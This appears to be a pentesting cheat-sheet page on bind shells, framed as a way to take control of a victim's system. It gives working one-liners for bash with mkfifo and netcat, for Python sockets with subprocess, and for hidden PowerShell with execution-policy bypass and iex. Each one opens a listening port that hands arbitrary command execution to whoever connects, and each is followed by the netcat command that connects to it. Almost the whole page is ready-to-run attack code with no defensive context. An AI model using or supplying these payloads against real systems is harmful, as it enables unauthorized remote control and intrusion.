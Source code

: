 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bind shell

Is a technique used to gain remote access to a victim's system by making it listen on a port and then connect to that listener. The shell sent to listen is attached to the target's shell on the target system letting us take control of the internal shell by connecting to it.

## <mark style="color:orange;">Basic script</mark>

* &#x20;Use and script that establishes a listening port on the target machine

{% code title="BindShell.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
```
{% endcode %}

* Connect to the listening port we have set using Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using Python</mark>

* &#x20;Use this command to establish a listening port on the target machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",$port));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

* Connect to the listening port we have set using Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using PowerShell</mark>

* &#x20;Use this command to establish a listening port on the target machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]$port; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

* Connect to the listening port we have set using Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}
